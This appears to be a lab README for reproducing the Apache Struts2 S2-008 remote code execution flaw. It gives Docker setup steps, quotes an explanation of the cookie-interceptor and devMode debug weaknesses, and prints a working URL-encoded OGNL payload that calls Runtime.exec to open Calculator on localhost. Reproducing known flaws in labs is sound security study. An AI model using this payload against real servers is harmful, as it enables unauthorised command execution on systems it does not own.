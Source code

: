 # S2-008 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Version: 2.1.0 - 2.3.1

Details: http://struts.apache.org/docs/s2-008.html

## Setup

```
docker-compose build
docker-compose up -d
```

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

> S2-008 involves multiple vulnerabilities. Cookie interceptor configuration problem can cause OGNL expressions execute, but most web containers (such as Tomcat) have character restrictions for cookie names, some key characters cannot be used. Another point is that if the struts2 turn on `devMode` mode, there are multiple debug interfaces that can directly view object information or execute commands. As Kxlzx(author) mentions, this situation is almost impossible in the real environment. So it becomes It's very useless, but I don't think it's absolute. It's possible to hack a struts2 application that turn on `debug` mode on the server as a backdoor.

> For example, adding the parameter in `devMode`mode `?debug=command&expression=<OGNL EXP>` will directly execute the following OGNL expression and you can execute the command:

```
http://localhost:8080/S2-008/devmode.action?debug=command&expression=(%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew%20java.lang.Boolean%28%22false%22%29%20%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C@java.lang.Runtime@getRuntime%28%29.exec%28%22open%20%2fApplications%2fCalculator.app%22%29)
```